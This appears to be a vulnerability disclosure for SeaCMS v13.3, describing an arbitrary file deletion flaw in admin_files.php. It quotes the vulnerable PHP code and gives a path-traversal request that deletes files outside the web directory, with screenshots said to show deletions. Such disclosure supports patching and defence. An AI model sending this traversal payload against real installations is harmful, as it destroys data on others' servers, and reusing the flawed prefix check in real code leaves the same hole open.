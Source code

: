   admin_files.php    Arbitrary File Deletion

### Introduction

SeaCMS v13.3 has an arbitrary file deletion vulnerability. This vulnerability is caused by the fact that, despite the restrictions on the files to be deleted, the restrictions are still imperfect, allowing an attacker to arbitrarily delete files on the server, not limited to web directories, including arbitrary files on the server.

SeaCMS 官方网站： [SeaCMS - 开源免费 PHP 电影系统、电影 CMS、视频 CMS、电影 CMS、SEACMS](https://www.seacms.com/)

Click to download

![image-20250402105820409](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021122959.png)

You can see the latest version v13.3



### Vulnerability analysis and exploitation

The vulnerable code is located at : When that parameter is passed, there is no path traversal check, allowing the attacker to construct it themselves, which can be done by passing the following parameters

```
elseif($action=='del')
{
	if($filedir == '')
	{
		ShowMsg('未指定要删除的文件或文件名不合法', '-1');
		exit();
	}
	if(substr(strtolower($filedir),0,$dirlen)!=$dirTemplate){
		ShowMsg("只允许删除附件目录内的文件！","admin_files.php");
		exit;
	}
	$folder=substr($filedir,0,strrpos($filedir,'/'));
	if(!is_dir($folder)){
		ShowMsg("目录不存在！","admin_files.php");
		exit;
	}
	unlink($filedir);
	ShowMsg("操作成功！","admin_files.php?path=".$folder);
	exit;
}
```

We can construct filedir for directory traversal deletion

```
/4w8vn/admin_files.php?action=del&filedir=../uploads/../../../../../../test.txt
```

#### Exploit POC

We can create a new test file outside the web directory to do this

![image-20250402110149613](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021124951.png)

Then construct the parameters

![image-20250402110312376](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021124008.png)



![image-20250402110331373](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021124694.png)

Exploiting it, we can see that the file was successfully deleted

Now let's take it a step further and try to see if we can delete the rest of the files on Windows

![image-20250402110438361](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021124172.png)

![image-20250402110507564](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021124089.png)

We can see that the files on the desktop are also deleted successfully



In summary, an attacker can exploit this vulnerability to delete any file on the deployer's computer